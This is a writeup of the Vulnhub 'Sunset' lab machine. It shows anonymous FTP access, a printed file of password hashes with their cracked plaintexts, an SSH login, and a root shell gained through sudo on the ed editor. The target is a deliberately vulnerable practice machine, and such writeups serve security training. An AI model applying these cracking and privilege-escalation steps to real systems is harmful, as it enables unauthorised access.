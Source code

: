 ```yaml
---
layout: post
title: Vulnhub - Sunset writeup
date: 2019-08-02 7:06
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/sunset-1,339/">Sunset</a>
  <br>
</h1>

<h4 align="center"> Author: whitecr0wz </h4>

## Nmap

![](images/sunset/nmap.png)

Only two ports are open and since FTP allowed anonymous login so let's start with that.

***

## FTP

After logging into FTP with anonymous credentials I found a file named `backup`

![](images/sunset/ftp.png)

That file contained the hashes of some of the passwords.

![](images/sunset/credentials.png)

```
➜ cat backup
CREDENTIALS:
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/
```

After removing the `CREDENTIAL` from the file I ran the file through john without any wordlist.

I got password for 3 user

![](images/sunset/cracked.png)

```
sky:sky
sunset:cheer14
space:space
```

and was able to login into SSH via `sunset's` password.

![](images/sunset/ssh.png)

And now we can get the `user` hash.

![](images/sunset/user.png)

***

## Privilege escalation

I downloaded the enumeration script from my own system and then ran it to see if I can find anything interesting.

The enumeration script gave out nothing but I found out that user `sunset` had some sudo priveleges.

![](images/sunset/sudo.png)

We can run the `ed` binary as root.

I searched the `ed` binary on gtfobins and found [gtfobins/ed](https://gtfobins.github.io/gtfobins/ed/).

I was able to get the root shell with the following commnad:

```bash
$ sudo -u root ed
!/bin/sh
```

![](images/sunset/root.png)

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
